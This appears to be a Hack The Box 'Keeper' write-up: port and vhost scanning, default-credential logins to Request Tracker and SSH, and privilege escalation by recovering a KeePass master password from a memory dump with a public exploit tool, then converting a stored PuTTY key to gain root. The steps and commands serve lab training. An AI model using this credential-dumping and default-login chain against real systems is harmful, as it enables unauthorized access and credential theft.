 ## Port Scan

```shell
─$ sudo nmap 10.129.229.41 -sS
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-22 08:46 CET
Nmap scan report for 10.129.229.41
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.95 seconds
```

The only active service is the web server on port 80 which has a single link to a subdomain where there is a login page. 

To reach the subdomain, we need it to be part of `/etc/hosts`, as usual.

## Dir and Vhosts enumeration

There is no other subdomain from Gobuster.

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster -w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt vhost --append-domain --domain keeper.htb -u 10.129.229.41
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.129.229.41
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: tickets.keeper.htb Status: 200 [Size: 4236]
Progress: 653911 / 653912 (100.00%)
===============================================================
Finished
===============================================================
```


## Best Practical RT

The login page at http://tickets.keeper.htb/rt/ is accessed. The default `root` and `password` credentials will work as the root user did not change his password.

Looking inside the data it is visible that the only user apart from root is `lnoorgard` and she has a default password `Welcome2023!` that will work for the SSH and so the User flag is already obtained.

## Privilege Escalation

In the user home directory there is a core dump for a Keepass file,  and the Keepass database.

There is an exploit available on GitHub to retrieve the master password from a Keepass database. This is done through a .NET program.

First of all install the Microsoft Framework in the user Home to execute it:

```shell
wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
chmod +x dotnet-install.sh
./dotnet-install.sh --version 7.0.404
```

Once installed download the Exploit and use it:

```shell
git clone https://github.com/vdohney/keepass-password-dumper.git
cd keepass-password-dumper
dotnet run <DMP FILE>
```

This will dump a password:

```shell
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

We don't need to brute-force it as it can be found on Google: `rødgrød med fløde`
This is a Danish dish.

Now we can open the Keepass database using the password above and find the root password: `F4><3K0nd!` but unfortunately this will not work directly with ssh.

Looking better inside the Keepass database, there is also a dump of a PuTTY key file that we can try to conver to OpenSSH keys. We can copy paste the file content into a `key.ppk` file and then:

```shell
puttygen key.ppk -O private-openssh -o id_rsa
puttygen key.ppk -O public-openssh -o id_rsa.pub
mv id_rsa.pub id_rsa .ssh/
```

Once keys are created one can login as root:

```shell
ssh root@keeper.htb -i .ssh/id_rsa
```

And we can get the root flag in the home directory!
